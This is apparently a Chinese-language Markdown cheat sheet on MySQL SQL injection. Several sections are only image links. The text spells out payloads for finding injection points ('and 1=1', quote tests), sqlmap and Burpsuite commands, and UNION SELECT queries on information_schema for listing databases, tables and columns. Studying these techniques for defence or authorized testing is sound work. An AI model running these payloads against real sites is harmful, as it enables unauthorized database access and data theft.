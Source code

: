 # MySQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;MySQL数据库(version>=5.7)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 注入函数
![](/assets/49A439B31D3656FE1266C2809C616748.png)
![](/assets/E33220D060B048EAA19A59928F1FFA64.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 样例代码
![](/assets/83A2168FAA2CDFB87AF8716FC9F92A3B.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 关于内置库
![](/assets/618D4E32E84852266ED812F5595453FF.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 注入流程
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1.注入点识别:
```
    手工识别:  '   
              [数字型] and 1=1 / and 1=2    
              [字符型] and '1'='1 / and '1'='2
              [易过滤] and 1 like 1 / and 1 like 2
                      or 1=1 / or 1=2,注意参数要提前设置成错误参数
                  
    工具识别:  sqlmap -m filename(filename中保留检测目标)
              sqlmap -r filename(filename中为网站请求数据)
              sqlmap --crawl(sqlmap对目标网站进行爬去，然后依次测试)
              Burpsuite+SQLMap
   
    其他技巧:  出现注入点也可能在登录、搜索、留言一切产生数据交互的地方
              在参数后键入 * ,表明只对这个参数进行测试(BP中)
                
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2.信息收集:
![](/assets/B37DE04BFA39F1E89C6D4C24BE781008.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.内容获取:
```sql
   判断注入点后,联合查询法,语句末尾添加 %23 或者 --+ 进行注释
   字段长度: order by
   显示字段: union select null,null,强制报错显示字段
   查库信息: union select database(),version()
   查库: union select group_concat(schema_name) from information_schema.schemata,null
   查表: union select group_concat(table_name) from information_schema.tables where table_schema=database()
   查列: union select group_concat(column_name) from information_schema.columns where table_name=0X十六进制
   查数据: union select group——concat()

   

```







